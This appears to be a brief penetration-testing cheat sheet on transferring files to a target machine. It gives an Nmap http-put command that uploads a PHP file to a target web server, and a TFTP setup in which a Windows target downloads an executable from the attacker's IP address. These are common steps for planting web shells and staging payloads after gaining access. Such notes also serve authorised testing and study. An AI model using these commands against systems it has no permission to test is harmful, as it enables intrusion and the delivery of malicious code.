 ## Nmap

> nmap -p 80 <target IP> --script http-put --script-args http-put.url='/remotefile.php',http-put.file='/root/myfile.php'



## TFTP

Installed on Windows XP up to 2003 by default
Ensure tftp is all set up as follows:

```
mkdir /tftp
aftpd --daemon --port 69 /tftp
cp /file/you/want /tftp
```

On Windows 
> tftp -i --yourIP-- get file.exe
